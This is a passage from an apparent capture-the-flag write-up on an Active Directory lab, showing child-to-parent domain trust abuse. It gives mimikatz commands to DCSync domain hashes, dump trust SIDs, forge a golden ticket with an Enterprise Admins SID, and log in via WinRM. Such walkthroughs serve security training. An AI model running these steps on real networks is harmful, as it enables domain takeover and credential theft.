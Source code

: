## Privilege Escalation (Enterprise Admin)

We can enumerate the trust between `labdc.trusted.vl` and `trusted.vl`

```powershell
([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()

nltest.exe /trusted_domains
```

<img src="https://i.imgur.com/fTHtEGb.png"/>

Following this article, we can abuse this child->parent domain trust relationship and escalate to enterprise domain, in order to do this we need the krbtgt hash of lab.trusted.vl and the SIDs of both domains, then with mimikatz we can forge a golden ticket for the enterprise domain admin

```powershell
lsadump::dcsync /domain:lab.trusted.vl /all
```

Dumping ntds.dit to get the krbtgt hash by using `mimikatz`

<img src="https://i.imgur.com/PxtLs80.png"/>

<img src="https://i.imgur.com/o7yrpMl.png"/>

Getting the domain SID of lab.trusted.vl and trusted.vl by running `lsadump::trust /patch`

<img src="https://i.imgur.com/GMpXiqM.png"/>

Now forging a ticket for enterprise domain admin

```powershell
kerberos::golden /user:Administrator /krbtgt:c7a03c565c68c6fac5f8913fab576ebd /domain:lab.trusted.vl /sid:S-1-5-21-2241985869-2159962460-1278545866 /sids:S-1-5-21-3576695518-347000760-3731839591-519 /ptt
```

<img src="https://i.imgur.com/pjFTMix.png"/>

All that is left is to dump ntds from trusted.vl domain 

```powershell
lsadump::dcsync /domain:trusted.vl /dc:trusteddc.trusted.vl /all
```

<img src="https://i.imgur.com/WA4XVkM.png"/>

<img src="https://i.imgur.com/fPNDmJT.png"/>

Having the administrator's hash from trusted.vl, we can login through WinRM and complete this AD chain.

<img src="https://i.imgur.com/floQbIF.png"/>

Even tho we are administrator on the machine, the flag wasn't still readable as it was giving access denied
